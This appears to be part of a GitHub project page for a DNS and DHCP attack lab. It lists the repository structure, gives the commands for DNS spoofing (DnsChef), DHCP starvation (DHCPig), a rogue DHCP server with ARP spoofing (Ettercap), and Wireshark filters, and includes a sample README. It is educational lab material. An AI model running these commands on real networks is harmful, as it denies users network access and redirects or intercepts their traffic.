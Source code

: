 ### 📁 Explanation
- `scripts/`: Custom automation scripts (Bash/Python)
- `screenshots/`: Example outputs and UIs
- `lab_exercises/`: Markdown guides for each attack
- `README.md`: Main documentation
- `interview_questions.md`: Optional technical Q&A

---

## 5. Lab Exercises & Attack Scenarios

### ⚠️ 1. DNS Spoofing using DnsChef
```bash
sudo dnschef --fakeip 192.168.56.105 --interface eth0
```
Expected: Any DNS request gets spoofed IP

### 💣 2. DHCP Starvation using DHCPig
```bash
sudo python3 $(which dhcpig) -i eth0
```
Expected: Legitimate users are denied IPs

### 🎭 3. Rogue DHCP Server with Ettercap
```bash
sudo ettercap -T -q -i eth0 -P dhcp -M arp:remote
```
Expected: Victim receives IP and gateway from attacker

### 🔍 4. Sniffing Traffic with Wireshark
- Start Wireshark and filter:
```
dns or bootp
```
Expected: Monitor DNS and DHCP traffic in real-time

---

## 6. README.md (Sample)

```markdown
# 🧪 DNS & DHCP Attack Vectors Lab

Welcome to the DNS & DHCP Attack Vectors Lab. This project is designed for learners, researchers, and penetration testers who want to explore and understand the practical side of network attacks.

## 🔍 Overview
Simulate DNS spoofing, DHCP starvation, and rogue DHCP attacks in a safe, controlled virtual environment.

## 📦 Contents
- DNS Spoofing using DnsChef
- DHCP Starvation using DHCPig
- Rogue DHCP via Ettercap
- Traffic Analysis via Wireshark

## ⚙️ Tools
- Kali Linux
- DnsChef
- DHCPig
- Ettercap
- Wireshark

```
